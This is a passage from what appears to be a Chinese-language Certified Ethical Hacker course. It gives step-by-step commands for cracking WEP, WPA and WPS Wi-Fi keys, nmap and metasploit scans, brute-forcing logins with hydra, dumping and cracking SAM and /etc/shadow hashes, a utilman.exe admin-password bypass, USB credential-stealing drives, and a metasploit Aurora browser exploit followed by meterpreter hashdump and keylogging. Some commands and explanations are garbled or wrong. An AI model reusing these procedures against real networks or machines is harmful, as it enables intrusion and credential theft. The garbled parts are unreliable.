# 或
# iwconfig
```

要激活监听模式，输入：

```bash
airmon-ng start wlan1
```

查看周围的无线网络：

```bash
airodump-ng mon0
```

停止监听模式：

```bash
airmon-ng stop mon0
airmon-ng stop wlan1
```

在我们想要访问的接入点上激活监听模式（指定通道数）：

```bash
airmon-ng start wlan1 6
```

检查接入点是否支持注入功能：

```bash
aireplay-ng -9 -e demo -a <mac address> mon0
```

（或 `--test`）它必须显示注入正在工作。

## 破解已连接客户端的 WEP

Aircrack 是破解已连接客户端 WEP 的最佳工具。它监控无线网络上的数据包以获取 IV，从 IV 中获取密码。

```bash
iwconfig
airmon-ng start wlan1
```

查看周围所有的网络：

```bash
airodump-ng mon1
```

它将列出你周围所有的网络。

```bash
airodump-ng -c 2 <ch no> -b <bssid> -w www mon1
```

捕获的数据包将保存在 `www` 中。对于强认证：

```bash
aireplay-ng -1 0 -e demo -a <mac address of access point> -h <mac address of the client I want to crack the packet> mon1
```

发送 ARP 请求以加速捕捉：

```bash
aireplay-ng -3 -b <bssid> -h <mac address of the client I want to crack the packet> mon1
```

20000 个数据包后，打开新窗口并输入：

```bash
aircrack-ng -b <bssid> ww*.cap
```

然后你就能找到无线密码。通过网络中的一个客户端，你可以找到 WEP 身份验证。

## 无客户端连接时破解 WEP

在没有客户端连接接入点的情况下找到 WEP 身份验证密码，我们需要另一种技术。它将使用我设备的监听模式，而不是使用接入点的客户端 MAC 地址。进入 Linux 并输入：

```bash
iwconfig
```

激活监听模式：

```bash
airmon-ng start wlan1
```

查看周围的网络：

```bash
airodump-ng mon0
```

`mon0` 将创建一个虚拟适配器网络。要查看监听模式虚拟适配器网络的 MAC 地址：

```bash
ifconfig
```

捕捉数据包：

```bash
airodump-ng -c 3 <ch no> -b <bssid> -w eee mon0
```

执行强认证：

```bash
aireplay-ng -1 0 -e demo -a <mac address of access point> -h <mac address of monitoring mode> mon0
```

发送 ARP 请求以加速数据包捕捉：

```bash
aireplay-ng -3 -b <mac address of access point> -h <mac address of monitoring mode> mon0
```

等待 20000 个数据包。打开新窗口并输入：

```bash
aircrack-ng -b <bssid> ee*.cap
```

然后你就能找到无线密码。所以从网络中的一个客户端，你可以找到 WEP 身份验证。

## WPA/WPA2 与 TKIP

点击 `aircrack-ng` 解密 WEP 密码。你将获得密码。在 `WEP` 加密中，预共享密钥的长度是固定的。他们试图找到一种具有可变密钥的方法，因此发现了临时密钥完整性协议 `TKIP`，它可以每次通过四次握手来更改密钥。在 `WPA` 个人模式中，我们在认证中使用预共享密钥；而在 `WPA` 企业模式中，我们在认证中使用 RADIUS 服务器。


密钥由 `TKIP`（临时加密密钥）以及紧随其后的 `TSE`（即 `IV` 和 `EIV`）组成。这两部分被称为密钥混合。然后它们进入 `RC4` 密算法。数据由两部分组成：`MSDU` `MIC` 密钥。这两部分进入 `michael` 算法，该算法将保护数据，使任何人无法编辑数据。算法的输出将被分段，并发送到 `CRC-32` 校验算法进行错误检测和纠正，输出的 `ICV` 将附在包上。它会对数据和密钥进行 `XOR` 运算，并作为 `Ciphertext` 放入数据包。为了更改临时密钥加密，我们使用四次握手。它通过 `EAP` 成功发生，该协议通过向接入点发送 `Anoce` 来更改密码。拥有 `PTK` 的智能设备将理解 `Anoce` 并回回发送 `Snoce` 以及 `MIC`。接入点将验证 `MIC`，如果正常则会响应。 我们通过监控模式监听网络。发现的任何数据包都会将其捕获并保存到文件中。我们将等待任何与接入点进行握手的客户端，分离该客户端并接收其响应将其捕获到文件中。通过字典攻击，我们将对文件进行解密并找到密码。

### 激活监控模式

```
#airmon –ng start wlan1
```

查看我周围的网络

```
#airodump –ng mon0
```



### 在文件中捕获数据包

```
#airodump –ng -c 5 (ch no) --bssid (mac) -w www mon0
```

  打开另一个窗口

```
#aireplay –ng -0 -a (mac address of the access point) -c (mac address of client of the packet) mon0
```



### 使用字典攻击破解密码

```
#aircrack –ng -w /password\ list.txt -b (mac of access point) www*.cap
```

   `WPA` 加密有两个问题。第一个问题是它使用了 `RCA4` 算法，且当接入点遭受 DOS 攻击时，`micheal` 算法会导致无线网络断开 30 秒。因此他们将 `RCA4` 算法替换为 `AES` 算法，后者负责数据的加密和传输。所有内容都进入 `AES CCMP`，包括明文数据、临时密钥、PIN 和 MAC 头部，并将它们加密为 `MIC` 和数据，包含 `CCMP` 头部和 MAC 头部 有个人版和企业版。个人版处理预共享密钥，企业版在认证中使用 radius 节点。

### 通过 WPS 破解 WPA2 加密

 我们可以使用字典攻击或 `WPS` 攻击来破解 `WPA2` 加密。`WPS` 是无线保护设置，是一种可以以简单方式连接客户端和接入点的服务。我们来到接入点并按下操作 `WPS` 功能的按钮，然后在客户端按下操作 `WPS` 功能的按钮。在后续视频中，我们将展示如何连接支持 `WPS` 的路由器。进入设置。点击无线和网络。然后是 `WIFI` 设置。有一个 `WPS` 连接选项，点击它 路由器上有一个启用 `WPS` 的按钮 在 `cisco` 路由器中，我们可以通过三种方法配置 `WPS`：第一种方法通过按下 `WPS` 功能按钮；第二种方法是输入 `WPS` PIN 码；第三种是客户端为接入点输入 `WPS` PIN 码。

### 激活监控模式

```
#airmon –ng start wlan0
```

### 识别支持 WPS 模式的路由器

```
#wash –I mon0 -C
```

 `Revear` 是一个可以对 `WPS` 服务进行暴力破解的工具，直到我们获取 PIN 码，从而解密 `WPA` 或 `WPA2` 加密。

```
#revear –i mon0 -b (bssid of access point)
```

 `revear –i mon0 -b (bssid of access point)`


# 使用 `scapy` 工具发送数据

它将发现网络中哪些设备是活跃的。有很多工具可以进行 `ping sweep`（ping 扫描）：`angry`、`hping` 和 `nmap`。

## 使用 `nmap`

```bash
nmap –sn 192.168.28.0 /24
```

## 使用 `hping`

在 Windows 中使用 `angry` 工具。

## 使用 `nmap` 知主机上的开放端口

```bash
nmap 192.168.152.130 -p 80
```

## 使用 `nmap` 对所有端口进行扫描

```bash
nmap 192.168.152.130
```

## 使用 `metasploit` 实现同样的目的

```
msfconsole
Msf> search scanner/portscan
Msf> Use auxiliary/scanner/tcp
Msf> Info
Msf> Set RHOSTS 192.168.28.139
Msf> Set PORTS 1-1000
Msf> run
```

## 隐蔽扫描或半开放扫描

问题是如果有防火墙，我们将无法获得结果。在隐蔽扫描或半开放扫描中：

```bash
nmap –sS 192.168.28.13 -p 80
```

## 使用 `metasploit` 实现同样的目的

```
msfconsole
Msf> search scanner/portscan
Use auxiliary/scanner/syn
Info
Set RHOSTS 192.168.28.139
Set PORTS 1-1000
Run
```

## ACK 扫描

我们可以使用 `ACK` 来了解防火墙上的未过滤端口：

```bash
nmap –sA 192.168.28.138 -p 138
```

它会告诉你这是防火墙中的一个未过滤端口。使用 `metasploit` 实现同样的目的：

```
msfconsole
Msf> search scanner/portscan
Use auxiliary/scanner/ack
Info
Set RHOSTS 192.168.28.139
Set PORTS 3380-3390
Run
```

它会告诉你未过滤的端口。

## FIN 扫描

`FIN` 扫描是另一种扫描方式。计算机发送一个 `FIN` 包，如果主机回答了，则是开放的：

```bash
nmap –sF 192.168.28.138 -p 1-1000
```

## XMAS 扫描

`XMAS` 扫描是另一种扫描方式。源机器发送 `FIN`、`URG` 和 `PUSH`，如果目标没有回答，则端口是开放；如果它用 `RST` 回答，则是关闭的：

```bash
nmap –sX 192.168.28.138 -p 80
```

## NULL 扫描

这里源机器发送一个设置了 `NO` 标志的 `TCP` 包。如果目标没有回答，则端口是开放；如果它用 `RST` 回答，则是关闭的：

```bash
nmap –sN 192.168.28.138 -p 80
```

## Idle 扫描

`Idle` 扫描是另一种扫描方式。当我们进行扫描时，目标不会记录我们进行了扫描，但 `IDS` 会记录执行扫描的 `Zombie`（僵尸）。这种技术用于打印机网络。我们进行 IP 伪装。我们向 `Zombie` 发送 `SYN/ACK`，它响应以 `RST`。我们再次向 `Zombie` 发送 `SYN ACK` 并获取包 ID。如果 ID 增加了两个数字，则端口是开放；如果增加了一个数字，则端口是关闭。

## UDP 扫描

在 `UDP` 扫描中，黑客向目标发送 `UDP` 探测。如果目标没有回答，则端口是开放的；否则是关闭的：

```bash
nmap –sU 192.168.28.138 -p (all ports)
```

它将显示所有端口。

# Nessus 注册指南

注册 Nessus：执行 `/opt/Nessus/bin`。完成后，进入应用程序（applications），后退到漏洞评估（vulnerability assessment）、漏洞扫描器（vulnerability scanners）、`nessus`。在浏览器中输入 `https://127.0.0.1:8834` 并添加网络子网进行扫描。

# Web 漏洞扫描器

- 使用 `Acunetix` Web 漏洞扫描器。
- `W3af` Web 漏洞扫描器：前往 `Vulnerability Assessment`、`Web Application Assessment`、`Web Vulnerability Scanner`、`w3af gui`。
- 使用 `armitage` 和 `metasploit` 扫描漏洞。

# 隧道与代理技术

你可以使用 `TOR` 代理服务器。使用工具 `super network tunnel`。在服务器和客户端安装它并进行配置。当存在防火墙拦截除 HTTP 端口 `80` 和 `443` 以外的所有服务器端口时，且我们想要通过开放的端口 `80` 与服务器通信，但必须在服务器上也安装程序的服务器部分。添加用户，然后启动服务器。在客户端计算机上设置程序。给它服务器的 IP。输入你在服务器上创建的用户名和密码。你可以通过隧道添加 Internet Explorer 并通过 `ftp` 隧道登录。

在服务器上安装 `Copssh` 工具并为客户端创建用户。激活用户。在客户端安装 `putty` 的同时，使用 `SSH` 作为代理服务器。

# IP 欺骗

使用 `nmap` 进行 IP 欺骗：

```bash
nmap -e eth1 -S 192.168.15 192.168.1.10
```

# 第 4 部分：枚举

## 枚举工具

有一个工具叫做 `Dumpsec`。我们可以从这个工具获取有关机器的信息。你可以使用 `sid2user` 工具。

使用 `nmap` 查看端口 `161` 是否开启：

```bash
nmap 192.168.28.137
nmap 192.168.28.137
```

前往应用程序、信息收集（information gathering）、网络分析（network analysis）、snmp 分析（snmp analysis）、`snmpenum`：

```bash
./snmpenum.pl 192.168.1.1 public
```

## 邮件服务器继枚举

在邮件服务器枚举中，尝试从邮件服务器获取信息。我们可以发现邮件服务器是否为开放继（open relay）；垃圾邮件者可以发送大量邮件导致其被列名单。要确定邮件服务器是否为开放继，检查 `http://www.mailradar.com/openrelay/`：

```
220 smtp01.gov HELO mailradar.com
250 smtp01.gov MAIL FROM:<>
554 Relay denied
221.0.0 Bye
```

测试完毕！主机未接受任何继！

在 linux 中使用 `netcat` 检测服务器是否为开放继。使用 `msfconsole`：

```bash
search smtp
use auxiliary/scanner/smtp/smtp_enum
show options
set RHOST 213.244.82.152
```

### 其他邮件用户方法

另一种从邮件服务器获取用户的方法：输入命令 `smtp-usr-enum`：

```bash
smtpscan 213.244.82.152
```

另一个工具叫做 `smtpscan`。要进行 LDAP 枚举，端口 `389` 必须开启。使用工具 `LDAP Admin`。你可以在 Windows 工具中使用 `ldp.exe` 实现相同目的。我们使用 `nslookup dnsstuff.com` 进行 DNS 枚举。

# 第 5 部分：系统破解

由 Hidaia Mahmood Alassouli 教授提供的认证道德黑客（CEH）课程第 5 部分。

## 目录服务

在工作组中，用户名和密码存储在同一台机器的 `SAM` 文件中。如果我们能从 `SAM` 文件获取数据，我们就可以破解密码。在域中，用户名和密码存储在域控制器（domain controller）中。目录服务由四部分组成：域分区（domain partition）、架构分区（schema partition）、配置分区（configuration partition）和应用程序分区（application partition）。

- `domain`：包含关于网络中所有对象的数据。
- `schema partition`：由属性或类模板组成。
- `configuration partition`：由域控制器的基础设施组成。

在 Active Directory 域中，机器使用 `Kerberos` 服务登录。当客户端想要访问任何资源时，它会访问 `Kerberos` 下一个名为 `TGS`（票据授予服务）的服务。`TGS` 携带 `TGT`（授权票据）。`TGT` 包含用户的 `SID` 以及用户所属的安全组。机器在想要访问服务时请求 `TGT`，Active Directory 授予服务票据和会话密钥；机器将服务票据和身份验证提供给服务。

## Cain and Abel 工具

使用 `Cain and Abel` 工具：告诉它你想使用网络。选择进行 `ARP poisoning`（ARP 污染）。选择运行 `NTLM authentication`（NTLM 认证）。前往 `sniffers`，然后选择 `hosts` 并点击 `add`。点击所有主机。前往 `ARP`，检查网关，并选择我们想要进行 `ARP poisoning` 的目标。浏览网络中的任一机器以查看其共享内容。


然后回到 `Cain and Abel`，点击 `passwords`，然后点击 `SMB`，我们将找到 `LM hash` 和 `NTLM hash`。我们可以从这些哈值破解密码。

## 高级密码恢复

可以使用 `hydra` 查找密码：

```bash
hydra -l msfadmin -P dictionary.txt 192.168.1.3 ftp
```

使用 `ncrack` 实现相同目的：

```bash
ncrack -u msfadmin -P /pentest/wordlists/darkde.lst 192.168.1.29
```

你有一个优盘，当你将其插入设备时，它会窃取信息。nirsoft.net 上有一个工具可以恢复所有类型的密码。

### 方法 1：U 盘

从网站获取程序：`mspass`、`pspv`、`passwordfox`（例如 `iepv_setup.exe`、`mailpv_setup.exe`）。获取程序并将其放入文件夹中。安装 `iepv` 和 `mailpv` 程序并从程序文件夹获取它们的程序。在文件夹中创建 `autorun.inf`。

### 方法 2：USB 工具

使用 `USB_Utilities`。选择 USB thief。浏览并选择你解压 USB 工具的位置。获取 `USBThief` 文件夹中的数据并放入闪存盘中。当你将闪存插入机器时，它将导出所有密码。

当微软保存密码时，它将其保存在 `LMHash` 中。现在有了 `NTLM` 哈希。在工作组环境中，微软将密码注册在 `sam` 文件中。它位于 `system32/config` 文件夹。当操作系统运行时，我们无法对 `SAM` 文件进行任何操作，因为它受到了保护。获取 `SAM` 文件中的数据有两种方法。第一种方法是带一个可以提取 `SAM` 文件数据的程序，第二种方法是通过通过启动 CD 从另一个操作系统启动。

## 获取 SAM 文件数据的方法 1

此方法适用于你作为普通用户登录本地机器，并想要获取该机器管理员密码的情况。在你不具备管理员权限的情况下查找管理员用户可以使用 `cain` 程序。点击 `cracker`。要求它获取 `local system` 的哈希。



 

## 方法 2 使用 CD 重置密码或破解 SAM 文件哈希

此方法适用于你未登录设备且没有账户的情况。在此种方法中，你可以使用 `PassCape CD` 重置密码。问题是用户知道密码被重置了。因此另一种方法是尝试破解 `SAM` 文件中的密码。



选择重置或更改用户账户密码。为你想要更改的用户设置新密码。 

尝试选择 `make dump export password hashes to file`。将导出的密码保存到 USB 驱动器中。你必须从 USB 盘启动以便将文件保存到其中。打开保存的文本文件。

该文件包含：

- 用户名
- 用户 ID
- LM 哈希
- NTLM 哈希

我们将破解 `LM` 哈希。

你可以使用网站 `www.onlinehashcrack.com` 来破解密码。 或者你可以使用 `cain` 程序。导出的 `sam` 文件。

你可以使用 `backtrack` 破解 `sam` 文件。要查看硬盘，在 `backtrack` 中输入：

`fdisk -l` 

挂载 Windows 分区：

```bash
mount /dev/sda1 /root
cd /Windows/system32/config
sam password1.txt > password2.txt
/pentest/passwords/john
./john /root/Windows/system32/config/password2.txt
``` 

我们想要对 `windows 2008 domain controller` 进行破解，这样我们就可以重置管理员密码并登录域控制器。 要进行离线破解，在光驱器中放入 `windows server 2008`。登录时指向 `windows 2008 server` 的 ISO 镜像

重启服务器。点击 `esc` 进入启动菜单。选择从 `cd` 启动。选择修复电脑 

选择命令提示符。进入 `c:\windows\system32`。将 `utilman.exe` 重命名为 `utilman.exe.bak`。将 `cmd.exe` 复制为 `utilman.exe`

重启机器。点击 `utilman` 图标。输入重置密码的命令：

`net user administrator pass205` 

在 Linux 中，密码注册在文件 `/etc/shadow` 中

### 离线密码破解

 将密码文件 `passwd` 和 `shadow` 保存为 `passwd.txt` 和 `shadow.txt`。

```bash
cat /etc/passwd
```
并保存到 `passwd.txt`。

```bash
cat /etc/shadow
```
并保存到 `shadow.txt`。

使用 `john` 工具：

```bash
cd /pentest/passwords/john
./unshadow passwd.txt shadow.txt > crack.txt
./john crack.txt
```  

`hashcat` 工具用于解密哈希密码。它可以破解 `md5`。`md5` 是单向加密，这意味着密码可以被加密但无法再次解密。下载 `hashcat` 来破解 `md5` 哈希。`hashcat` 将对比两个哈希。它会获取一个单词，对其进行加密，并与密码哈希进行比较；如果它们相等，则单词相同。我们有三个版本：`hashcat`、`hashcat-gui`、`hashcat-plus` 

权限提升（Privilege Escalation）是赋予用户更高的权限。某些后门可以获取管理员权限  要了解用户，进入 `c:\documents and settings`，你会找到机器上所有用户的配置文件。要获取用户信息，输入：

`net user user`

使用 `MS11-080` 更改权限：

`MS11-080.py -0 xp`  

存在硬件记录器和软件记录器 硬件记录器是连接电脑和键盘以记录每个字母的硬件。它不会被间谍软件检测到。存在可以检测键盘动作的程序：`PCspy keylogger` 可以完成任务，`Actualspy` 可以完成任务  你可以使用 `metasploit keylogger`  输入：

```bash
msfconsole
Msf>search windows/browser/ms10_
Use exploit/windows/browser/ms10_002_aurora
Set SRVHOST 192.168.128.133 (你的 ip)
Set SRVPORT 80 (程序监听的端口)
Set URIPATH /
Exploit
Sessions -l (访问所有会话)
Session -I 1
```

`meterpreter session` 中的一些命令：

- `Hashdump` (获取哈希)
- `migrate` (提升权限)
- `getuid` (获取级别)
- `shell` (获取 root)
- `keyscan` (获取信息)
- `dump` (获取文件)
- `start` (保持进程)

有一些工具让我们保持 root 权限  使用 anywhere  Blaster 

 后门是指通过它我们可以访问机器并绕过现有安全策略的后门。微软拥有允许其对机器进行远程访问的后门。

### b) 特洛马

